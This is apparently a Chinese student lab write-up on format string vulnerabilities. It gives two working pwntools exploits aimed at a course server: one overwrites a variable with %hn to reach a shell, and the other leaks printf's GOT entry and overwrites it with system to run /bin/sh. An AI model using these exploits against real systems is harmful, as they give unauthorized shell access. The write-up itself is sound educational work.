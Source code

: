 # 格式化字符串漏洞

## Fsb1

​	首先，根据GDB的调试，buffer字符串存储在栈上offset为8的位置；同时，在程序中输出了x变量的实际地址位置。根据这两个条件，利用%hn修改x变量的值，使得程序调用vuln_code()函数，进而执行"/bin/sh"，完成攻击。

​	在攻击过程中，构造payload=b"AAB%9$hn"+p64(address_x)，其中AAB用于对齐指令，使得x的地址位于buffer的第二个位置，即栈上offset为9的位置。然后在printf(buffer)时，程序调用%hn命令，修改x的值，完成攻击。

![gdb1](fsb1/gdb1.jpg) 

```python
from pwn import *
p=remote('8.154.20.109',10300)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
p.recvuntil(b"x is: ")
address_x=p.recvline().decode().strip()
print(hex(int(address_x, 16)))

target=p64(int(address_x,16))
payload=b""
payload+=b"AAB%9$hn"
payload+=target
p.sendline(payload)

p.interactive()
```

![flag1](fsb1/flag1.jpg)  

## Fsb2

​	程序中printf()函数多次被执行，可以通过劫持printf的地址，根据偏移量利用格式化字符串漏洞将printf地址的值修改为system函数，然后传输“/bin/sh”字符串，完成攻击。

​	首先，根据GDB的调试可知，buffer存储在栈上offset=6的位置，通过计算可知buffer的最后一个元素存储在offset=37的位置。在攻击过程中，先通过ELF获取printf的got表地址。在第一轮循环中，构造payload=b"%37$s"+b"A"*(256-len(payload)-8)+p64(printf_got)，利用%s泄露出printf在系统中的实际地址。在第二轮循环中，利用fmtstr_payload构造payload将第一轮循环中获取的地址加上system()与printf()的偏移量，即将内存中的printf()修改为system，最后传输“/bin/sh”完成攻击。

![gdb2](fsb1/gdb2.jpg) 

```python
from pwn import *
from LibcSearcher import *
from fmtstr import *
context.log_level = 'DEBUG'
context.arch = 'amd64'
# p=process('./fsb2')
p=remote('8.154.20.109',10301)
p.recvuntil(b'StudentID:\n')
p.sendline(b'----------')//学号
elf=ELF('./fsb2')
printf_got=elf.got['printf']
# print(hex(printf_got))
payload=b"%37$s"
payload+=b"A"*(256-len(payload)-8)
payload+=p64(printf_got)
# info(f"payload = {payload}")
p.sendline(payload)
p.recvuntil("Here comes your challenge:\n")
recv = p.recv()
# info(f"recv={recv}")
printf_addr=u64(recv[:6]+b"\x00\x00")
# info(f"printf_addr={hex(printf_addr)}")
libc = LibcSearcher("printf", printf_addr)
printf_offset = libc.dump('printf')
system_offset = libc.dump('system')
system_addr = printf_addr - printf_offset + system_offset
# print(hex(system_addr))
offset=6
payload = fmtstr_payload(offset, {printf_got: system_addr},write_size='short')
print(payload)
p.send(payload)
p.recv()
p.send(b"/bin/sh\0")
p.interactive()
```

![flag2](fsb1/flag2.jpg) 